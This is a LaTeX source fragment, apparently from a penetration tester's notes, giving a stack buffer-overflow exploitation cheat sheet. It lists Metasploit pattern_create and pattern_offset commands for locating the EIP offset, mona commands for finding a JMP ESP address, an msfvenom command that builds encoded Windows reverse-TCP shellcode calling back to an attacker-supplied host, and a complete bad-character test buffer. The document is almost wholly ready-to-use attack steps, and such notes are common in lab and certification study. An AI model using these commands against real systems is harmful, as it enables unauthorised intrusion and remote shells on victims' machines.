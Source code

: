 \documentclass[a4paper,12pt, twoside,]{report}
\begin{document}
\subsection{commands}
\begin{lstlisting}[caption={BOF Commands},label=bof1]
*@Creating: (Depending on MSF Version)@*
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb <length> >pattern.txt
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length> >pattern.txt
*@Finding:(Depending on MSF Version)@*
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  <value in EIP> <length>
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <value in EIP>

*@Mona@*
!mona modules
!mona find -s "\xff\xe4" -m <dll or so to search in>
***@FFE4 = "JMP ESP"@***
***@Remember the Big Endian / Low Endian Thing !!!@***

*@Shellcode@*
 msfvenom -p windows/shell_reverse_tcp LHOST=**@<ip>@** LPORT=443 -f c -e x86/shikata_ga_nai -b "***@<badchars>@***" EXITFUNC=thread>shellcode.txt
\end{lstlisting}
\subsection{Badcharbuffer}
\begin{lstlisting}[caption={Bad char buffer},label=bad]
badchar = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
\end{lstlisting}
\end{document}
